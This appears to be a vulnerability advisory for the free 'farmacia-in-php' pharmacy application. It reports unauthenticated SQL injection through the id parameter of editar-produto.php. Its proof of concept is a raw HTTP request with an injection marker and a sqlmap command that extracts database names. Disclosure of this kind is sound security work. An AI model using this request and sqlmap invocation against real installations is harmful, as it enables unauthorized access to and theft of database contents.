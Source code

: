 # farmacia-in-php has sql injection vulnerability in editar-produto.php

## supplier
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
editar-produto.php
## describe
There is an unauthorized SQL injection vulnerability in  editar-produto.php of farmacia-in-php.The information of the database can be obtained without authorization.

## code analysis

The **id** parameter in editar-produto.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

![image-20241113142150613](https://github.com/user-attachments/assets/8a465118-a43e-4db0-97ac-b9fbac718554)

## POC

```
GET /editar-produto.php?id=2* HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=3hnve2b8nf9g557qpdoel9u2ro
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

save as 1.txt

Get Databases: farmacia

```
python sqlmap.py -r 1.txt
```

![image-20241113141710432](https://github.com/user-attachments/assets/e88cd7a1-8ee8-455c-8499-470917816905)
